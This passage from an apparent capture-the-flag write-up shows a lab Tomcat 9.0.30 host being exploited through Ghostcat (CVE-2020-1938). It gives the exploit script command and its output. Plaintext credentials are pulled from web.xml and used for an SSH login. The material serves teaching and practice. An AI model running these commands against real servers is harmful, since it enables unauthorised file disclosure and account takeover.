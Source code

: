   - `/manager`: Tomcat Manager login (requires credentials, inaccessible for now) [].
- Tried accessing `/manager`—prompted for credentials, suggesting a protected area [].

### 3. Exploit Ghostcat (CVE-2020-1938)
- Recognized Tomcat 9.0.30’s AJP port (8009) as vulnerable to Ghostcat, which allows reading arbitrary files (e.g., `WEB-INF/web.xml`) via the AJP protocol [,].
- Used the Ghostcat exploit script (`48143.py`) []:
  ```bash
  cd /home/sigma/Downloads
  python 48143.py -h
  ```
- Output: Usage for targeting AJP port 8009 and reading files (e.g., `WEB-INF/web.xml`).
- Ran with Python 2 (due to compatibility error in Python 3):
  ```bash
  python2 48143.py 10.10.181.178 -p 8009 -f WEB-INF/web.xml
  ```
- Output:
  ```
  Getting resource at ajp13://10.10.181.178:8009/asdf
  ----------------------------
  <?xml version="1.0" encoding="UTF-8"?>
  <web-app ...>
    <display-name>Welcome to Tomcat</display-name>
    <description>
       Welcome to GhostCat
          skyfuck:8730281lkjlkjdqlksalks
    </description>
  </web-app>
  ```
- **Findings**: Credentials `skyfuck:8730281lkjlkjdqlksalks` embedded in `web.xml` [].
- **Explanation**: Ghostcat exploits improper AJP request handling, allowing file inclusion without authentication [,].

### 4. SSH as skyfuck
- Tested credentials via SSH:
  ```bash
  ssh skyfuck@10.10.181.178
  ```
- Password: `8730281lkjlkjdqlksalks`
- Success: Logged in as `skyfuck`.
- Verified:
  ```bash
  id
  ```
- Output:
  ```
  uid=1002(skyfuck) gid=1002(skyfuck) groups=1002(skyfuck)
  ```
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output: `skyfuck` cannot run `sudo`.
